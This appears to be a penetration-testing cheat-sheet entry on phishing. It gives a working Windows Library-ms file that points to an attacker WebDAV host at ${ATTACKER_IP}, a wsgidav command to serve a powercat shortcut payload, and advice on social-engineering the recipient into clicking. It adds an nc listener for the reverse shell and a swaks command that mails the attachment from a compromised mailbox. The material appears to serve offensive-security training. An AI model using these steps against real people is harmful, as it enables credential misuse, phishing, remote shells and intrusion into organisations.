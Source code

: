 # Phishing

With a valid set of credentials for a mailserver of a domain, we can use swaks to send an email from an account.

The prep for this:

`config.Library-ms`:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://${ATTACKER_IP}</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

make a link-file with the powercat payload.

Setup a `wsgidav` listener (make the root dir beforehand):

```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ./webdav/
```

place the .link file in `./webdav` and write a body and header to social engineer the target to clicking the .link file in the `./webdav` folder.

have a `nc` listener ready on an approriate port.

When clicking the attacked `config.Library-ms` file on a windows machine, it will make a remote connection to the `wsgidav`-server and show it as if it's a local explorer.
Then, when the target clicks the link, we spawn a shell.


```
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.248.189 --body @body.txt --header "Subject: ${HEADER}" --suppress-data -ap
```
